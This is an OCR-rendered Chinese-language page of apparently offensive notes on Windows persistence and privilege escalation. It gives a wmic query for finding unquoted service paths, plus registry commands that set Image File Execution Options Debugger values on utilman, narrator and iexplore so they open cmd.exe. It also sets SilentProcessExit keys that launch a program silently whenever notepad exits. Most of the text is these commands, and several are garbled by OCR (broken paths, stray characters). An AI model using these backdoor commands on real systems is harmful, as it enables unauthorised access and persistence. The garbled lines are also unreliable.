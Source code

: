 当使用 runpersistence 进行持久化时默认远程路径会推送到%TEMP%("C:\Users\AppData\Loca\\Temp\”).当
用户重后时·persistence 持久化就会出错

## service 提权

[Link](https://blog.csdn.net/qq_54704239/article/details/129048009)

```bash
# 缺少引号会造成问题
wmic service get name,displayname,pathname,startmode | findstr /v /i "c:\windows"
```

## 系统工具后门替换

1.找到注册表"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options"目绿下的 iexplore .exe 2.添加一个 debugger 字符串键值， 并且赋值为 calc.exe 的执行路径，"C:Windows\system32\calc.exe" 3.运行 iexplore.exe

```bat
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe" /t REG_SZ /v Debugger /d "C\windows\system32\cmd.exe" /f
```

劫持辅助工具管理器

```bat
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "Ct\windows\system32\cmd.exe" /f
```

劫持辅助工具-其他

```bat
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C: \windows\system32\cmd.exe" /f
reg add "HKEY_LOCAL_MACHINE SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKEY_LOCAL_MACHINE SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad. exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /t REG _SZ /d "C:Windows\system32\calc.exe"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options \narrator.exe"，/t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" ，/f
```

实现原程序退出后静默运行后门]程序。以执行 notepad 为例，退出后静默运行 calc exe

```bat
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" N GlobalFlag /t REG_DWORD /d 512
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t  DWORD /d 1
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /t REG_SZ /d "C:Windows\system32\calc.exe"
```

使用 MSF 劫持。
